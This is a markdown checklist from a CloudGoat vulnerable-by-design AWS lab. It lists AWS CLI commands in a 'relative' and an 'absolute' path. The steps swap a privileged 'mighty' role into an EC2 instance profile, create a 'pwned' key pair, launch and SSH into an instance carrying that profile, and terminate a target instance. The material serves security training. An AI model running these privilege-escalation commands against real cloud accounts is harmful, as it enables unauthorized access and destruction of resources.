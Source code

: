# Relative path

- [ ] aws configure --profile Kerrigan
- [ ] aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan
- [ ] aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan
- [ ] aws ec2 create-key-pair --key-name pwned --profile Kerrigan
- [ ] aws ec2 run-instances --image-id ami-0a313d6098716f372 --iam-instance-profile Arn=<instanceProfileArn> --key-name kerrigan --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId>
- [ ] (SSH into _new_ instance) // Implicit step
- [ ] aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1

Steps: 7
Completed: 0

# Absolute path

- [ ] aws configure --profile Kerrigan
- [ ] aws ec2 describe-instances --profile Kerrigan
- [ ] aws iam list-instance-profiles --profile Kerrigan
- [ ] aws iam list-roles --profile Kerrigan
- [ ] aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan
- [ ] aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan
- [ ] aws ec2 create-key-pair --key-name pwned --profile Kerrigan
- [ ] aws ec2 describe-subnets --profile Kerrigan
- [ ] aws ec2 describe-security-groups --profile Kerrigan
- [ ] aws ec2 run-instances --image-id ami-0a313d6098716f372 --iam-instance-profile Arn=<instanceProfileArn> --key-name kerrigan --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId>
- [ ] (SSH into _new_ instance) // Implicit step
- [ ] sudo apt-get update
- [ ] sudo apt-get install awscli
- [ ] aws ec2 describe-instances --region us-east-1
- [ ] aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1


Steps: 15
Completed: 0
